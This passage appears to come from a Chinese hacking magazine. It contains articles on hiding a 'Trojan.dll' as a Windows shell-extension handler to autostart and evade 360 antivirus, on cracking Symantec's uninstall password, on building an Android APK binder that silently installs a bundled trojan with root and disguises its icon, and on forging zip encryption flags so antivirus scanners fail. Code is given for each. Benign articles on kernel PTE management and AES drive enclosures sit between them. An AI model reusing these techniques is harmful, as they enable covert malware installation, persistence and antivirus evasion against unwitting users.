的默认值下。接着搜索这个 CLSID，如图 4 所示，发现出现在 HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\WinRAR 的默认值下。
图 4 HKEY_CLASSES_ROOT\*\shellex\ContextMenuHandlers\WinRAR

在注册表中，根键 HKEY_CLASSES_ROOT 下注册了各种文件类型，上面键名中的“*”显然表示任意类型，shellex 是 SHELL EXtension 的缩写，ContextMenu 是上下文菜单，也就是单击右键时显示的菜单，进而 ContextMenuHandlers 的意义就很明显了。当我们在某种文件上单击右键时，explorer 会遍历 *\shellex\ContextMenuHandlers 下的所有 shell 扩展，并调用相应的 DLL。

这种 shell 扩展其实应该是 COM，在 Visual Studio 中为 ATL 项目。Shell 扩展提供特定的接口供 explorer 调用，并返回相应的结果。Explorer 根据返回值执行相应的操作，比如在右键菜单中添加“用 WinRAR 打开”选项等。不过对我们来说，在右键菜单里添加选项只会暴露自己，所以没有必要提供那些接口，只需要编译一个普通的 DLL，在 DllMain 里面添加代码就好。代码如下：

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL,
                    DWORD fdwReason,
                    LPVOID lpReserved)
{
    MessageBox(NULL, L"Inject succeed!", L"test", MB_OK);
    return TRUE;
}


```

上述代码只是弹出一个对话框，读者可以自行进行扩展。不过需要注意的是，DllMain 函数会被频繁地调用（每次在文件上单击右键时），且在它返回前 Explorer 一直处于假死状态，所以这里不适合执行太复杂的功能。

将 Dll 编译为 `D:\Trojan.dll`，并将 `HKEY_CLASSES_ROOT\CLSID\{B41DB860-64E4-11D2-9906-E49FADC173CA}\InProcServer32` 的默认值由 RarExt.dll 的路径改为该 DLL 的路径，然后在一个文件上单击右键，对话框成功弹出，如图 5 所示。
图 5 成功弹出对话框

上述修改会禁用掉 WinRAR 的 ContextMenuHandlers，导致 WinRAR 提供的右键菜单选项无法显示，容易被用户发现。以下代码在文件类型“*”和 Directory（在文件夹上单击右键也会执行我们的 DLL）下新注册一个名为 Trojan 的 ContextMenuHandlers，并将预先生成的 CLSID 关联到我们的 DLL 上。

```cpp
#include <Windows.h>
#include <Shlobj.h>
#include <iostream>
#include <string>
using namespace std;

int main(){
    HKEY key = NULL;
    string guid = "{CFDEAC70-8C3A-4AFB-B0B7-7FAB65EE8F43}";
    string DllPath = "D:\\Trojan.dll";
    LONG result;
    result = RegCreateKeyExA(HKEY_CLASSES_ROOT, "*\\shellex\\ContextMenuHandlers\\Trojan",
                             NULL, NULL, NULL, KEY_ALL_ACCESS, NULL,
                             &key, NULL);
    if(result != ERROR_SUCCESS) cout << "Fail to open *\\shellex\\ContextMenuHandlers\\Trojan" << endl;
    RegSetValueExA(key, NULL, 0, REG_SZ, (BYTE*)guid.c_str(), guid.length());

    RegCloseKey(key);
    result = RegCreateKeyExA(HKEY_CLASSES_ROOT, "Directory\\shellex\\ContextMenuHandlers\\Trojan",
                             NULL, NULL, NULL, KEY_ALL_ACCESS, NULL,
                             &key, NULL);
    if(result != ERROR_SUCCESS) cout << "Fail to open Directory\\shellex\\ContextMenuHandlers\\Trojan" << endl;
    RegSetValueExA(key, NULL, 0, REG_SZ, (BYTE*)guid.c_str(), guid.length());

    RegCloseKey(key);
    result = RegCreateKeyExA(HKEY_CLASSES_ROOT, (string("CLSID\\") + guid + string("\\InProcServer32")).c_str(),
                             NULL, NULL, NULL, KEY_ALL_ACCESS, NULL,
                             &key, NULL);
    if(result != ERROR_SUCCESS) cout << "Fail to open " << string("CLSID\\") + guid + string("\\InProcServer32") << endl;
    RegSetValueExA(key, NULL, 0, REG_SZ, (BYTE*)DllPath.c_str(), DllPath.length());
    string ThreadModel = "Apartment";
    RegSetValueExA(key, "ThreadingModel", 0, REG_SZ, (BYTE*)ThreadModel.c_str(), ThreadModel.length());
    RegCloseKey(key);
    // 通知 explorer
    SHChangeNotify(SHCNE_ASSOCCHANGED, SHCNF_IDLIST, NULL, NULL);
    cout << "Done" << endl;
    return 0;
}


```

其中 `SHChangeNotify(SHCNE_ASSOCCHANGED, SHCNF_IDLIST, NULL, NULL);` 通知 explorer 文件关联发生改变，促使其进行更新，否则有可能需要重启 explorer.exe 才会执行我们的 DLL。在 Windows 7 下修改注册表需要管理员权限，所以需要在 `Properties->Linker->Manifest File` 中设置 UAC Execution Level 为 `requireAdministrator (/level='requireAdministrator')`。

首先关闭杀软并执行这个程序，对话框成功弹出，说明功能是正确的。但当打开 360 时，如图 6 所示，操作被拦截。接下来我尝试了许多方式进行绕过，比如修改相应的注册表项而不是新建，直接替换 RarExt.dll，利用 PendingFileRenameOperations 替换 RarExt.dll 等，悉数被 360 拦截，无一幸免。
图 6 修改右键菜单被 360 拦截

我当然不会就此放弃，一边继续在注册表中查找可能的利用方式，一边上网查找有关的资料。很快，HKEY_CLASSES_ROOT\*\shellex\PropertySheetHandlers 引起我的注意。刚才已经分析过 ContextMenuHandlers 负责处理上下文菜单，那 PropertySheetHandlers 应该负责处理属性菜单。如图 7 所示，查看 RAR 文件的属性时有一个 Archive 页签，便是 WinRAR 通过注册 PropertySheetHandlers 实现的。闲话少说，把刚才程序中的 ContextMenuHandlers 替换为 PropertySheetHandlers，编译运行，打开了一个文件的属性页，360 毫无反应，而我们的对话框却已经弹出来了。
图 7 WinRAR 添加的 Archive 页签

到此工作似乎已经完成，但还是美中不足，因为许多用户根本不懂得去查看文件的属性，所以我们的 DLL 永远得不到执行。不过 Handler 的种类还有很多种，http://msdn.microsoft.com/en-us/library/windows/desktop/cc144110(v=vs.85).aspx 中有详细的列表与解释。`{00021500-0000-0000-C000-000000000046}` 这个 handler 的作用是处理鼠标悬停在文件上显示的内容（为什么不叫 TooltipHandlers 呢？也许是微软有意隐藏吧）。如图 8 所示，只要鼠标在文件上稍一停留，就会显示提示文本。所以，`{00021500-0000-0000-C000-000000000046}` 的调用频率比 PropertySheetHandlers 要高得多。
图 8 显示 Tooltip 文本

要利用这个 handler，还有一点要注意。微软的文档中写有“For the following handlers, the default value of the "Handler Subkey Name" key is the string version of the CLSID of the Shell extension. Only one extension can be registered for these handlers.”意思是需要在 `HKEY_CLASSES_ROOT\*\shellex\{00021500-0000-0000-C000-000000000046}` 的默认值下直接添加我们的 CLSID，而不是在 `HKEY_CLASSES_ROOT\*\shellex\{00021500-0000-0000-C000-000000000046}\Trojan` 的默认值下添加。为节省篇幅，这里只给出部分代码（完整代码见附件）。

```cpp
result = RegCreateKeyExA(HKEY_CLASSES_ROOT, "*\\shellex\\{00021500-0000-0000-C000-000000000046}", NULL, NULL, NULL, KEY_ALL_ACCESS, NULL, &key, NULL);
if(result != ERROR_SUCCESS) cout << "Fail to open" << endl;
RegSetValueExA(key, NULL, 0, REG_SZ, (BYTE*)guid.c_str(), guid.length());


```

编译并运行我们的程序，360 没有给出任何提示。现在只要将鼠标指向某个文件或文件夹，我们的对话框就会弹出来。有的朋友可能会有疑问，原来的 Tooltip 不再显示会不会导致暴露？答案是不会的。因为我们弹出了一个对话框，要关闭这个对话框就要移动鼠标，所以 Tooltip 就不会显示。但现实中我们不会弹出对话框，所以原先的 Tooltip 还是会显示出来。当然，如果用户已经预先设置 `*\shellex\{00021500-0000-0000-C000-000000000046}`，而这种 handler 只能设置一个（该键的默认值设置为相应的 CLSID，默认值只有一个），就会导致无法显示原先的 Tooltip 文本。解决的办法是将相应的调用转发到原来的 DLL 上。Shell 扩展的内容很多，可以利用的地方也不少，有兴趣的读者可以进一步研究，也欢迎与我交流。

以上就是笔者利用 shell 扩展自启动的整个研究过程。由于笔者水平有限，不当之处，还望指正。文中程序均在 Windows 7 x64 + VS2012 下编译执行。

## Windows中系统PTE区域的管理

文/图 王晓松

提到系统 PTE，大多数计算机人员都会感到陌生，甚至是一些专业研究 Windows 内核的朋友，也可能是略有耳闻，而不知其详。实际上，在进行 I/O 映射、内核栈、驱动程序加载的实现中，都用到了系统 PTE。本文略先对系统 PTE 进行介绍，然后对其管理算法进行讲解。

### 系统 PTE 链表的管理

在 Windows 进程的系统空间，有一段区域叫做系统 PTE 区域，其起始地址为 MmNonPagedSystemStart（参考值为 0xf0c00000），末尾地址为 MmNonPagedPoolExpansionStart（参考值为 0xf8ba0000），如图 1 所示。
图 1 在系统地址空间中的系统 PTE 区域

系统内存空间中有换页内存池和非换页内存池，它们分别是以链表和位图的方式进行管理，其管理结构都位于非换页内存池中。系统 PTE 区别于这两者之处在于，直接使用了对应地址空间的 PTE 作为管理结构，当一个页面被使用时，其对应的 PTE 会填充相应的内容，而没有被使用的页面对应的 PTE 是无效的，那么闲着也是闲着，就拿这些 PTE 作为这个区域内存页面的管理结构吧！

系统 PTE 区域将无效的 PTE 作为一种管理结构，每连续的 N 个无效 PTE 构成一个簇，簇与簇之间使用链表进行组织，一个簇中的 PTE 是 4 个字节的长度，其结构如图 2 所示。
图 2 系统 PTE 管理结构的内容

由于使用的一定是无效的 PTE，那么 V 位一定为 0，关键的结构在于 NextEntry 和 OneEntry。NextEntry 占 20 位，指明下一个无效 PTE 簇的第一个 PTE 的位置。OneEntry 表示该簇只有一个页面。依据簇大小的区别，可以分为以下几种情况：

- 簇的大小为 1，那么 OneEntry=1，NextEntry 指向下一个空闲簇的起始地址；
- 簇的大小大于 1，那么 OneEntry=0，NextEntry 同样指向下一个空闲簇的起始地址，同时该簇中第二个 PTE 中 NextEntry 成员使用该簇的大小填充；
- 当到达最后一个簇时，其第一个 PTE 中的 NextEntry 成员用 0xfffff 填充（五个 f，因为是 20 位长），表明这是最后一个无效簇，其余内容填写符合 1、2 两条规则。

一个简单的例子如图 3 所示，灰色背景的 PTE 表示该 PTE 已经使用，无效的 PTE 构成 3 个簇，大小分别是 2、1、3。
图 3 用链表连接的系统 PTE 簇

簇的管理并不复杂，简单叨咕叨咕。举个例子，想取得 3 个空闲页面，算法会从链表头开始，遇到多于 3 个页面的簇，摘除之，保留簇；如果正好是三个页面的簇，则摘除该簇，同时修改相应的参数。当有页面使用后归还，首先定位，之后与前面或者后面紧邻的空闲簇进行合并，如没能合并，则作为一个新的簇节点插入链表。

## 系统 PTE 区域内存管理算法

数量较少页面的获得和交还，在 Windows 中使用得非常频繁，如果单纯地使用上节中描述的链表进行管理，效率并不高。比如需求只是提取 3 个页面，需要从链表头开始搜索大于 3 个空闲页面的簇，搜索时间不确定；如碰到 5 个空闲页面的簇，需要剪裁，重新设置链表中的参数，比较复杂。为此，Windows 会在完成系统 PTE 区域的初始化后，在上节所述的基于链表的簇管理基础上，建立 5 个缓存链表，每个链表中的节点分别包含 1、2、4、8、16 个页面，如图 4 所示。当有需要系统 PTE 区域空闲页面的需求时，首先在上述的 5 个链表中提取，如果不满足需求，再直接使用链表管理的簇。当一些内存被使用完毕，则首先会尝试着放入缓存链表中，如果插入不成功，或者还回的内存页面大于 16，则直接将这些页面放入簇连接的链表中。
图 4 使用缓存链表提高系统 PTE 的使用效率

为了有效地管理上述的 5 个缓存链表结构，系统使用数组 MiSystemPteNBHead 来存储 5 个缓存链表的头节点，并分别规定了每个链表的最初值、最低值（如果低于该值，就从底层的簇管理链表中提取页面）。其管理结构如图 5 所示。

| MiSystemPteNBHead | 最初值 | 最低值 |
|---|---:|---:|
| 1  | 400 | 100 |
| 2  | 200 | 50  |
| 4  | 60  | 30  |
| 8  | 50  | 20  |
| 16 | 40  | 20  |

图 5 缓存链表的一些管理数据结构

当我们需要分配 N 个页面且小于 16 时，可以直接从该缓存链表中得到，其取得的策略为：大于 N 的最小链表值。举个例子，如果需要使用 5 个连续页面，则使用第 4 个链表，即取 8 个页面的链表；为了加速定位，这里使用了一个技巧，直接使用了 MmSysPteTables 数组，这个数组的第几项对应着应该到哪个链表上取得内存页面。可以验证，若想取得 4 个页面，则索引为 4，取该数组中的第 5 项内容为 2，即从索引为 2（实际顺序为 3）的链表中取得 4 个内存页面，而其后的第 6 项，索引为 5，则对应着从索引为 3（实际顺序为 4）链表中取页面。说起来啰嗦，实际上拿出纸笔，对应着演算一下，就非常简单了。

```c
#define MM_PTE_TABLE_LIMIT 16
UCHAR MmSysPteTables[MM_PTE_TABLE_LIMIT+1] = {0, 0, 1, 2, 2, 3, 3, 3, 3, 4, 4, 4, 4, 4, 4, 4, 4};


```

#### 小结

本文介绍了 Windows 内核中一个不太常见的概念：系统 PTE。系统 PTE 最大的特别之处在于其管理结构被放于对应该区域的 PTE 中，系统 PTE 的管理算法并不复杂，使用了簇结构的链表管理，并使用缓存链表的方式加快了操作的效率。

（完）

### 卸载有密码保护的杀毒软件

图/文 unity

最近公司购买了一套 Symantec 的杀软，准备推广到个人笔记本上。笔者试用了一下，不知道是因为驱动的 bug 还是其他原因，笔者的 Photoshop 突然变得非常卡。好吧，要跟杀软说拜拜了！结果打开控制面板一看，直接悲剧了！如图 1 所示。
图 1

好吧，真是万恶的 IT 部门，竟然有密码保护。这个密码肯定是不会告诉我了，只好自己动手了。读到这里，读者们肯定会说了，完全可以直接秒了杀软的服务嘛。不过笔者出于好奇，还是挂上了这个进程，看看这个密码保护是怎么实现的。

### OD 分析－内存爆破

看了看提示是中文的，下个 MessageBoxW 断点，果然断下来了。返回到 MSIEXEC 的领空，然后一直往上找，看看有没有办法绕过。

```asm
012BAAC0    .    PUSH 0
012BAAC2    .    PUSH EBX                     ; Title
012BAAC3    .    PUSH DWORD PTR SS:[EBP-10]   ; Text
012BAAC6    .    PUSH DWORD PTR DS:[ESI+20]   ; hOwner
012BAAC9    .    CALL DWORD PTR DS:[<&USER32.MessageBoxW>> ; MessageBoxW
012BAACF    .    MOV ECX,EDI
```

向上翻了翻，很幸运地看到了一个大跳转，会直接跳过这个 MessageBoxW 的调用。

```asm
012BAA5C    .    POP ECX
012BAA5D    .    TEST AL,AL
012BAA5F    .    JE SHORT MSI8.012BAA6D   ; 这里下断点
012BAA61    .    MOV ECX,ESI
012BAA63    .    CALL MSI8.010425C7
012BAA68    .    JMP MSI8.012BAB0B        ; 这里大跳转
012BAA6D    .    CALL MSI8.0103ADF2


```

我们在 12BAA5F 处下断，在 OD 里执行，NOP 掉这个 JE 跳转，继续执行，发现 SEP 已经不再询问密码了！到这里我们就可以做个简单的内存补丁，去爆破了。方法也很简单，先枚举窗口，找到 PID 以后改内存就行了，最终效果如图 2 所示。不过我们还得继续分析呢，所以赶紧点了取消。
图 2

### 密码保护分析

既然刚才已经追踪到了 MSIExec 的某个模块，我们干脆就去分析它吧！这里偷个懒，直接搜索字符串，最终发现了一处非常可疑的注册表读取调用，如图 3 所示。
图 3

这个逻辑很明显了，先读取名字为 SmcInstData 的键值，如果不存在就不需要密码了。打开注册表一看，那个键值长度刚好 16 位，碰巧这个模块有一处 CryptCreateHash 调用，创建的刚好是 MD5 密码，看来八九不离十了！如图 4 所示。
图 4

试着直接干掉这个注册表键位，直接悲剧了，提示删除时出错。看来有 Hook，拿出自己写的工具统统 Unhook 掉。再次点击删除，键值果然消失了，顿时一阵快感袭来，终于能卸载了！再次点击删除，发现又提示输入密码。在注册表里按了下 F5，发现 SmcInstData 被还原了。好吧，只好使出最后的一招了！直接在注册表里去掉 Everyone 的读取权限，这下 SEP 没法读取了吧？再次运行卸载命令，SEP 果然识别不了密码，直接跳到卸载步骤了！唉，百密一疏，杀软竟然不先去恢复注册表权限，就去解析密码了呢。

### AES 硬加密移动存储安全吗？

文/图 imodding

### 列举案例：香港电脑失窃，因硬盘数据被敲诈。结论：全盘加密安全

2013 年 6 月，香港东方日报刊出一则新闻《拾计算机 窥裸照 教师勒索廿万元》，报道中提到 80 后男教师拾到一台笔记本电脑，结果发现硬盘中存有「裸女相簿」，遂向物主叫价廿万元人民币勒索，结果身陷法网的故事。

就此香港无线科技商会荣誉主席方健侨表示，将整个硬盘加密才是最安全的方法。这就引出了本文主角：ZM-VE400。

### ZALMAN VE-400 AES256 加密功能及加密过程介绍

ZM-VE400 是 ZALMAN 公司推出的移动硬盘盒中的最新型号，了解 VE 系列的朋友应该知道它和韩国的另一家公司 IODD 有很深的渊源，此为后话，这里按下不表。

VE400 号称具备 AES 256 位硬盘数据实时加密，最大可设 8 位长度数字密码。没有密码，一般人访问不了硬盘里的数据，即使拆开接到别的机器上也看不见其中的内容。这个功能是 VE400 所独有的，之前的产品（VE300 和 VE200）均不具备该功能。下面我们来演示一下加密过程。

- 1. 首先进入菜单中的加密项，如图 1 所示。
图 1

- 2. 屏幕提示加密会导致数据丢失（建议在初始使用时决定是否加密，否则请做好数据备份），如图 2 所示。
图 2

- 3. 输入想要设置的密码，之后再次确认密码，如图 3 所示。
图 3

- 4. 加密完成，下次接入硬盘盒，会提示输入密码，否则无法识别到盘符。

### 测试恢复场景模拟

- A. 假设不法分子非法获得加密盘，在不知密钥的情况下尝试恢复，会提示无法识别到盘符，恢复无法进行，如图 4 所示。结论：数据安全。
图 4

- B. 假设不法分子取出加密硬盘盒中的硬盘，尝试恢复。将加密硬盘盒中的硬盘拆出，单独接入电脑，会提示未分区，使用 WINHEX 依照文件类型恢复（之前确定硬盘上保存有该类型文件），提示无法找到文件，如图 5 所示。结论：数据安全。
图 5

- C. 重置加密后，尝试恢复。

这里我们假设硬盘主人将移动硬盘重置加密后再次投入使用，被不法分子获得并尝试恢复。

为减少干扰，首先将硬盘用 WinHex 做填零操作，排除恢复中无关数据的干扰，设置加密后拷入数据，再重置加密，即去除加密项。使用 WinHex 依照文件类型恢复，同样无果，如图 6 所示。结论：数据安全。
图 6

### 结语

经过以上实战演示，表明 VE400 加密功能的确保护了用户数据的安全，但加密与破解始终是矛与盾的关系，数据安全远非高枕无忧，就像无线 WPA2 曾经也被视为不可破解。唯有不断学习精进，方能跟上步伐。

### 背景小知识：

256 位 AES 加密算法是军用级别的加密技术，并由美国政府认可来用于加密高度敏感信息。根据美国国家安全系统委员会出版的 CNSSP-15，256 位 AES 密钥长度能足够安全地加密美国政府分类数据中的最高机密数据。

AES-256 被 IT 玩家所熟知，应该是 LSI SF2000 系列固态硬盘主控爆出问题时。当时经 LSI/Sandforce 证实，硬件没有启动 AES-256 加密功能。在部分厂商报告中还提及该功能不致影响普通客户使用，AES-128 的加密强度也非常强大。除此之外，SSD 本身映射表非常复杂，从 Nand Flash 恢复数据几乎不可能。AES-256 加密技术，只对非常严苛的用户，如军工级用户有影响。

（完）

### Android 下 APK 捆绑器的实现

文/图 海东青

利用捆绑器向正常程序捆绑病毒、木马等恶意程序，以达到隐藏安装、运行的目的，这在 Windows 平台下是一种很常规的攻击手段。那么，在智能终端十分流行的今天，如何实现针对手机应用的捆绑器呢？对此，本文针对 Android 平台的应用程序 APK 文件，给出了类似 Windows 下捆绑器的实现方案。

### 原理与基础

对任意的两个 APK 应用程序 A 和 B 进行捆绑，并且在手机上安装、运行捆绑生成的 APK 程序 C 后，仍然具备和 A 一样的运行效果。要实现这一目的，捆绑过程可以从两个思路去实现。

- 1. 对 Android 应用程序 A 进行反编译，通过修改反编译生成的 smali 代码，控制执行流程，使其具备安装和执行应用程序 B 的功能，最后再打包生成捆绑后的应用 C。此方法和早期的 Windows 环境下的 PE 病毒类似，插入额外的功能代码，修改入口点改变程序执行流程，最后再回到原有流程执行 A 的功能。
- 2. 考虑到 A、B 的任意性，以及生成程序 C 的稳定性，在这里重点介绍另外一种通过宿主程序实现释放、安装、运行 A 和 B 的方法。其思路亦来自 Windows 下的捆绑器，即专门写一个 host 程序作为宿主，其中应用程序 A、B 作为 host 的资源文件，运行 host 时可以释放、安装和运行 A 和 B 的功能。此外，若考虑到安全性、免杀性，可对 A 和 B 进行加密、编码。

因此，根据方法 2，可得出 PC 端和 Android 手机端的软件工作流程如图 1 和图 2 所示。
图 1 PC 端捆绑并生成目标程序的过程
图 2 Android 手机上，目标程序安装并运行被捆绑的程序的过程

### 功能实现

通过上面的介绍，可以知道总共需要实现两个程序，即作为宿主程序的 Android 应用 host.apk，以及作为捆绑器的 Windows 应用程序“捆绑器”，下面将详细介绍这两个程序内部原理和实现方法。

- 1. 宿主应用程序  
  1) 工作流程

对于宿主程序 host.apk，要实现上文所定义的功能需求，则其内部的工作流程可设计如图 3 所示的结构。在宿主程序初始化时，会调用 MainActivity 的 onCreate 函数。在 onCreate 函数中，通常用来初始化 MainActivity，但是考虑到最终呈现给用户的界面（即 Activity）为 A 的界面，所以宿主程序的 onCreate 函数中无需处理自身界面，只需想办法启动 A 的 Activity 即可。
图 3 宿主程序 host.apk 的内部流程图

释放和安装指定的应用程序通常需要较长时间（与应用程序的大小相关），若所有流程均在 onCreate 函数流程中实现，则会导致宿主程序界面卡顿或假死，故可通过在 onCreate 函数中创建子线程的方式避免该问题，在子线程中实现相关功能，其中主要有释放和安装应用程序，以及启动主应用程序这两部分。

### 2）释放和安装应用程序

- 1. 释放指定文件

对于 Android 应用程序，需要捆绑的资源文件可以直接放置到 assets 目录下。在宿主程序中，共计需要释放三个文件，即配置文件 config、主程序 update.res 和捆绑进去的程序 data.res，释放方式如下。当程序安装后，需要释放时可通过如下方式实现。

```java
// dstFilePath 为释放出来的文件路径，resFileName 为需要释放的文件路径
private void dropFile(String dstFilePath, String resFilename){
    if (isFileExist(dstFilePath)) return;
    InputStream inputFS;
    try {
        inputFS = this.getResources().getAssets().open(resFilename);
    } catch (IOException e1) {
        return;
    }
    File outFile = new File(dstFilePath);
    byte buf[] = new byte[1024];
    int len;
    try {
        OutputStream outputFS = new FileOutputStream(outFile);
        while ((len = inputFS.read(buf)) > 0) {
            outputFS.write(buf, 0, len);
        }
        outputFS.close();
        inputFS.close();
    } catch (IOException e) {
        return;
    }
    return;
}
```

- 2. 安装应用程序

文件释放后，接下来就要根据需要进行安装程序。对用户而言，已经安装程序了，故接下来安装程序需要在后台完成，即不引起用户察觉，这就需要使用 shell 下的 pm 命令（Package Manager）。而 pm 命令需要 system 权限，故执行此操作时需要确保可以获取 root 权限。安装一个指定程序可通过“pm install target_apk”实现。而执行 shell 命令利用 runtime.exec 即可实现，可将其简单封装为 runCommand(String str)。

```java
private void runCommand(String strCommand){
    Runtime runtime = Runtime.getRuntime();
    try {
        runtime.exec(strCommand);
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

综上，释放、安装的功能实现代码如下。

### Android 远程监控技术

```java
// Install the specified apk
public String installAPK(String apkFileName)
{
    // 获取 assets 中文件安装后的实际路径
    String tmpDir = this.getApplicationContext().getFilesDir() + "/";
    String apk_path = tmpDir + apkFileName;
    // 释放文件
    dropFile(apk_path, apkFileName);
    // 安装的 apk 文件需要读写权限，故赋予读写权限
    runCommand("su -c chmod 666 " + apk_path);
    // 使用 pm 安装文件
    runCommand("su -c pm install -t " + apk_path);
    return apk_path;
}
```

### 3）启动应用程序

启动应用程序可通过切换 Activity 实现，即调用主程序 A 的 MainActivity 就可实现启动 A 程序并切换界面为 A，该过程可通过如下几步实现。

- 1. 获取需要启动的 apk 的信息  
  具体包括 apk 的 packagename 和 MainActivity 名。对于宿主程序而言，由于捆绑器已成功获取并将此信息写入了 config 文件，故只需要从 config 中分别读取这两个字符串即可。
- 2. 新建 intent  
  `Intent intent = new Intent(Intent.ACTION_MAIN);`  
  `intent.addCategory(Intent.CATEGORY_LAUNCHER);`
- 3. 切换 Activity，启动程序  
  `ComponentName cn = new ComponentName(main_app, main_app_Activity);`  
  `intent.setComponent(cn);`  
  `startActivity(intent);`

### 2. 捆绑器程序

运行在 Windows 下的捆绑器程序主要是为宿主程序做准备：获取主程序 A 的 packagename 和 MainActivity 信息，获取捆绑进去的程序 B 的 packagename；修改宿主程序的图标，使其和程序 A 的一致；将准备好的宿主程序打包、签名等。下面将详述每个部分。

### 1）提取信息

需要提取的信息为应用程序的 Packagename 和 MainActivity 名，这些信息可以从 manifest 中解析，但更简单的办法就是使用现有工具 apktool。该工具可以对 apk 程序进行解包、打包、提取信息等。具体地，提取信息仅需命令 `aapt.exe dump badging apk_name` 即可。为了方便应用，我们可以写一个专门提取信息的批处理脚本 `aapt_apkinfo.bat`，具体如下：

```bat
set PATH=%CD%;%PATH%;
"%~dp0\aapt.exe" dump badging %1 > %2
```

该批处理以 `aapt_apkinfo.bat a.apk info.txt` 的方式调用，其中第一个参数为 apk 路径，第二个参数为信息存储文件。在程序中则可以如下调用：

```cpp
ShellExecute(NULL, TEXT("open"), szAaptCommand, szParameter, NULL, SW_HIDE);


```

其中，`szAaptCommand` 指向 `aapt_apkinfo.bat`，`szParameter` 为参数 1 和参数 2 构成的字符串，如 `a.apk info.txt`。

由于此时获取到的信息如图 4 所示，内容太过冗余，我们需要从中解析出 packagename 和 MainActivity。易知，此时得到的信息是按行存储的，即 `info.txt` 中的每行为一类或一条信息，故解析时逐行判断即可。其中 packagename 通常以此种格式出现：`package: name='com.tencent.mobileqq'`，可以认为 `package: name` 之后的单引号内的内容为 packagename。MainActivity 的信息如图 5 所示，故同样易得其信息。相关文本搜索、字符串判断等相关代码不再罗列。
最后，通过上述方法将提取到的信息存入 assets 目录下的 config 文件中，供宿主程序使用。

### 2）替换图标和标签

- ①获取图标和标签信息

考虑到安全性，需要对 host 程序进行必要的伪装，即重新打包后的 host 程序，安装后在应用列表看上去要和 A 程序的一致，故还需要替换图标和标签。同理，通过上述方法，可从 `info.txt` 中获得 label 和 icon 的信息，如图 6 所示。
- ②替换图标和标签信息

在获得 icon 路径和 label 之后，接下来需要替换 `host.apk` 中的这些信息。首先需要对主程序 `A.apk` 进行解包，以获得图标文件。Apk 解包同样使用 apktool。直接使用 apktool 解包的命令为 `java -jar apktool.jar -d apkpath unpackeddir`，其中 apktool 支持很多参数，实现其他功能，方便起见将其封装为 bat 文件 `unpack_apk.bat`，内容如下：

```bat
set PATH=%CD%;%PATH%;

java -jar "%~dp0\apktool.jar" d %1 %2
```

该批处理的第一个参数为 apk 路径，第二个参数为解包后的目录路径。在捆绑器程序中，可通过如下命令调用该批处理，实现相应的解包功能。

```cpp
ShellExecute(NULL, TEXT("open"), szBatfilePath, szParameters, NULL, SW_HIDE);


```

其中，`szParameters` 即为批处理文件对应的两个参数。在成功解包之后，替换图标就很简单了，只需要用上述 icon 路径对应的文件替换宿主程序 `host.apk` 中的 `\res\drawable-mdpi\ic_launcher.png`、`\res\drawable-hdpi\ic_launcher.png`、`\res\drawable-ldpi\ic_launcher.png` 和 `\res\drawable-xhdpi\ic_launcher.png` 文件。宿主程序的标签信息位于 `\res\values\strings.xml` 中，具体如图 7 所示。只需将其中的 `app_name` 对应的值替换为前面获取到的 label 的值即可。
### 3）打包、签名

通过前面的步骤，我们已经成功修改好了宿主程序 `host.apk`，接下来需要对其进行打包、签名。

- ①打包

对 APK 的打包，仍旧采用 apktool，将其封装成 `apk_apk.bat`，内容如下。

```bat
set PATH=%CD%;%PATH%;
java -jar "%~dp0\apktool.jar" b %1


```

其所需的唯一一个参数即为需要打包成 apk 的目录。类似地，程序中的调用方法依旧使用：

`ShellExecute(NULL, TEXT("open"), szPackBatfile, m_szFinalApkDir, m_pctApkToolDir, SW_HIDE);`。

- ②签名

对 apk 的签名，可通过使用工具 autosign 实现。其调用方式为：

`java -jar signapk.jar testkey.x509.pem testkey.pk8 unsigned.apk signed.apk`，

需要的两个参数为签名的文件路径和成功签名后的文件路径。将其写为 `sign.bat`，内容为：

`java -jar signapk.jar testkey.x509.pem testkey.pk8 %1 %2`。

在捆绑器程序中相应的调用方式为：

`ShellExecute(NULL, TEXT("open"), szSignBatfile, szParameters, m_pctAutoSignDir, SW_HIDE);`，

最终即可获得捆绑后的 apk 程序。

### 总结

通过前面的步骤，最终生成了一套由“apktool”“auto-sign”“host.apk”和“捆绑器”组成的 apk 捆绑器工具，如图 8 所示。
图 8 捆绑器工具组成（左）和捆绑器运行界面（右）

最终捆绑之后的 apk 应用程序具备和正常安装的 apk 一样的运行效果，但却能隐藏地安装所指定的任意 apk 文件，达到预期的目的和功能效果。

同时，在上述实现过程中仍存在一定的不足，如在安装捆绑之后的 apk 应用时，所显示的权限和非正常安装的程序（主程序 A.apk）的权限不一致。一种更完善的方法则可以考虑在修改 `host.apk` 文件时，同时将主程序 `A.apk` 的 manifest 中的权限也复制到 `host.apk` 的 manifest 中，有兴趣的读者可以自行尝试。

### APK 免杀大挑战

文/图 无敌仔仔

目前国内主流的手机杀毒厂商的在线杀毒一般都是采用静态检测技术，通过对 apk 包进行解包，分析其中的 dex 文件、xml 文件以及 so 文件，以发现其中的敏感权限、API 以及恶意链接等信息。

要分析就要先解包，如果解包不顺利，将直接影响分析的效果。我们都知道，apk 文件格式符合 zip 包压缩格式，所以目前的大多数自动化检测程序使用 zip 插件在 PC 上实现解包过程。但是安卓系统加载 apk 时不会对每个字段都进行检查，这就给恶意程序开发者提供了一个躲避静态检测的绝佳机会。

在 zip 包中有一个字段的作用是加密标志，也就是说当在 PC 上使用 zip 解包的时候，如果检测到该字段为奇数，就认为是加密的 zip 包，要输入正确密码才能解开，但安卓系统加载 apk 时不检测这个字段。也就是说，我们只要将木马 apk 包中的加密标志改为奇数，就可以让静态检测程序在解包的时候出错甚至崩溃，从而实现免杀。用户在安装这个 apk 后，安卓系统是完全不管加密标志的，自然会顺利加载该木马。下面我们看一下具体的实现过程。

加密标志位一般位于“504B0102”后的第 5 个字节，为奇数时被看作是加密包，为偶数时被看作无加密包，如图 1 所示。
图 1

当用 RAR 解压时会提示输入密码，但其实我们并没有设置密码，也就是说 zip 包内的文件并没有被真正加密。

知道了加密的方法，解密的方法就简单了，只要将加密标志位设置成 00 即可解压。下面是我在网上找到的一段 Python 代码，可以实现直接解压。

```python
import argparse
from zipfile import ZipFile, ZipInfo

class ApkFile(ZipFile):
    def extract(self, member, path=None, pwd=None):
        if not isinstance(member, ZipInfo):
            member = self.getinfo(member)
        member.flag_bits ^= member.flag_bits % 2
        ZipFile.extract(self, member, path, pwd)
        print 'extracting %s' % member.filename

    def extractall(self, path=None, members=None, pwd=None):
        map(lambda entry: self.extract(entry, path, pwd),
